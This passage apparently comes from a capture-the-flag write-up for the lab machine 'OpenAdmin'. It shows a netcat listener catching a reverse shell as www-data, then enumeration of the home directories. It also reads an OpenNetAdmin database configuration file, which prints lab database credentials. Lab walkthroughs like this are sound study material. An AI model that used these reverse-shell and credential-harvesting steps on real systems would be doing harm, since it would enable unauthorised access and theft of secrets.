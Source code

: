 **Listening** 
```
$ nc -lnvp 443        
listening on [any] 443 ...
connect to [10.10.16.12] from (UNKNOWN) [10.10.10.171] 57610
bash: cannot set terminal process group (1210): Inappropriate ioctl for device
bash: no job control in this shell
www-data@openadmin:/opt/ona/www$ 
```
# Post-Exploitation

## Enumeration
### User enumeration
```
www-data@openadmin:/opt/ona/www$ cd /home/
cd /home/
www-data@openadmin:/home$ find .
find .
.
./jimmy
find: './jimmy': Permission denied
./joanna
find: './joanna': Permission denied
www-data@openadmin:/home$ 
```

### Config enumeration
`$ cat /var/www/html/ona/local/config/database_settings.inc.php`
```
<www/html/ona/local/config/database_settings.inc.php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```
